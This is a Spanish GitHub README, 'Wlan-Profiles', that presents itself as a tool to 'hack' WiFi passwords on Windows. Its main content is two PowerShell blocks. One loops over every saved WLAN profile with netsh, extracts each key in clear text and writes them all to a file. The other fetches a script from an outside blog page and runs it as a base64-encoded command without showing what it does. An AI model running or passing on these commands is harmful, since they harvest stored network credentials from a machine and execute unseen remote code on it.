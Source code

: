 # Wlan-Profiles
Aplicación Wlan Profiles hackear contraseñas de wifi
Cómo ver la contraseña de una red WiFi a la que estás conectado en Windows 
Es muy fácil saber la contraseña de la red WiFi a la que estás conectado en Windows, te explicamos cómo.
Si ya te has conectado con tu PC o portátil Windows a una red con contraseña, y ahora quieres conectar 
también tu smartphone o alguien te pregunta la clave y no la recuerdas, es muy fácil “recuperarla” desde tu ordenador.
![](https://3.bp.blogspot.com/-oPb9wuB5nUk/WjRqB56LuCI/AAAAAAAAI3A/wonBBPq85QEbBQmgxkGoWDTxBNlMa6_mwCLcBGAs/s200/lpericena%2Bwifi.png)
https://www.lpericena.tk/2019/03/importar-perfiles-wlan-con-powershell.html

```
(netsh wlan show profiles) | Select-String “\:(.+)$” | %{$name=$_.Matches.Groups[1].Value.Trim(); $_} | %{(netsh wlan show profile name=”$name” key=
clear)}>>wifi.txt
```
![](https://1.bp.blogspot.com/-MklkR5Po3Lk/XIvsQU3GKCI/AAAAAAAAOI4/2-lJrvpaGRYGL0DGn2JOuJJaBx722ITDACLcBGAs/s1600/powershell.png)
```
$url="https://www.jesusninoc.com/2017/01/24/hackear-wifi-con-powershell-script-codificado-en-base64/"
$result = Invoke-WebRequest $url
[String]$execute=$result.AllElements | Where class -eq 'crayon-pre' | %{$_.innerText}
Invoke-Expression "powershell -encodedcommand $execute"
```
![](https://4.bp.blogspot.com/-ShOocj2HPUM/XIuW5KbQhdI/AAAAAAAAOHc/pUdjWkNLFachuykLCPACzlIQGt-YYvtaACLcBGAs/s1600/Screenshot_94.png)
### Otros comandos 
- información del interfas del sistema.
Get-NetAdapter
- Para ver información de la interfaz de red WiFi.
Get-NetAdapter -Name Wi-Fi
- Mostrar cmdlets relacionados con el adaptador de red.
gcm -Noun netadapter | select name, modulename
- Utilizando netsh.
netsh wlan show networks mode=bssid




Sigueme en las redes Sociales:
- 🌎Blogger          https://lpericena.blogspot.com/
- 💡 Github            https://github.com/Pericena
- 🎬 youtube.com  https://www.youtube.com/channel/UCELx1m-NeAdBn7mCuQ86kcw
- 📸 pinterest        https://es.pinterest.com/lushiopericena/
- 🐤 twitter             https://twitter.com/LPericena
- 👦 linkedin         https://www.linkedin.com/in/lpericena/
- 👍 facebook       https://www.facebook.com/profile.php?id=100009309755063
- 👍 pagina facebook  https://www.facebook.com/lpericena
- 🎮 sitio web        https://pericena.wordpress.com/
- vimeo         https://vimeo.com/lpericena
- 📷 instagram      https://www.instagram.com/lpericena/
- 🎁 remote      https://remote.com/luishinopericena-choque
- ⚛ google+   https://plus.google.com/u/0/114054031405340478901
- 🚀 kiwi       https://kiwi.qa/LuishinoC
- 📅 App    https://apps.facebook.com/167466933725219
- 👻 Grupo    https://www.facebook.com/groups/122223121705126/?source_id=1506435219407506
- 🎧 socialtools https://www.socialtools.me/index?action=demoApps&preview=1&app_id=406101
- ツ teachlr    https://teachlr.com/lpericena
- 📖  wikipedia  https://es.wikipedia.org/wiki/Usuario:Luishi%C3%B1o_Pericena_Choque
- 📧 ask          https://ask.fm/Lpericena
- 💻 stackoverflow  https://stackoverflow.com/users/6506592/luishi%C3%B1o-pericena-choque
- 📡 wix https://lpericena.wixsite.com/curriculumvitae
